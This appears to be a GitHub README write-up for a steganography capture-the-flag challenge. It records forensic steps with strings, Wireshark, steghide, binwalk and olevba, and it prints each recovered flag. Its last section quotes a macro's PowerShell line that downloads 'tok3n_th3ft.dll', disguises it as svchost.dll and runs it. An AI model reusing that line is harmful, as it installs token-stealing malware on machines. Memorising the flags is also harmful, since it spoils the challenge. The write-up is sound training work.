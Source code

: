 # uwe-steg-challenge

## Dj Khaled
Used the strings command to expose the flag at the bottom of the output - flag{alw4y3_l00k_4_5tr1n9s}

## PCAP 1 
- Opened the PCAP in wireshark 
- Used the filter `http.content_type contains "image/png"` packet no `16681` was the only one 
- File -> Export Objects -> HTTP -> Text Filter "PNG" -> export `meow.png`
- Open the file to reveal the flag - flag{PC4P_4_FL4GZ}

## SHREK.GIF
- Opend the gif in ezgif.com
- split the gif into frames
- one of the frames contained the flag - flag{g3t_shr3k3d_sk1d}
![image](https://github.com/user-attachments/assets/370f4f0c-da58-4b9e-8d76-4773130d81f2)
![image](https://github.com/user-attachments/assets/5f75bedd-4a62-4152-915b-522ce7eae8aa)


## Steghide 1
 - Ran command `steghide -sf uwe.jpg`
 - Exported a file called `stage.ps1`
 - There was a base64 encoded string `ZmxhZ3tuMHRfdG9vX2g0cmRfcmlnaHQ/fQ==`
 - The docoded string in cyberchef revealed the flag - flag{n0t_too_h4rd_right?}

## Steghide 2 
 - Ran command `strings uwe2.jpg`
 - below the file signature there was the line `XHey GCHQ! Use this for the st3gh1d3 pwd (remember to decode it!): ==wL6kHdpJXdjV2UyJ3R`
 - flipped the string and decoded it using base64 within the terminal `echo "R3JyU2VjdXJpdHk6Lw==" | base64 -d`
 - the command returned `GrrSecurity:/ `
 - ran command `steghide extract -sf uwe2.jpg` and used the password to return a `flag` file
 - the flag file contained `QlpoOTFBWSZTWRvPsyUAAATLgAAQTAAAAKXlFIogADFNMjExMQpkGgejSSNc6jujSwBhTBwpE/F3JFOFCQG8+zJQ`
 - using CyberChef the string was decoded first from base64 then using Bzip2 Decompress returning the flag - flag{g3tting_h4rd3r_n0w}

## Hard 
 - Ran command `binwalk -e test.docm` to extract data from the the docm file
 - there were two images contained in the doc  `image1.jpeg` and `image2.png`
 - ran command `binwalk -e image2.png` 
 - Ran the command `olevba test.docm` as there was a vba macro present
 - the output showed a base64 encoded url `$Command = "Invoke-WebRequest -Uri 'https://github.com/polygonben/polygonben.github.io/raw/refs/heads/master/assets/images/tok3n_th3ft.dll' -OutFile 'C:\temp\svchost.dll'; rundll32.exe C:\temp\svchost.dll,EntryPoint"` which downloads a dll file and runs it
 - 




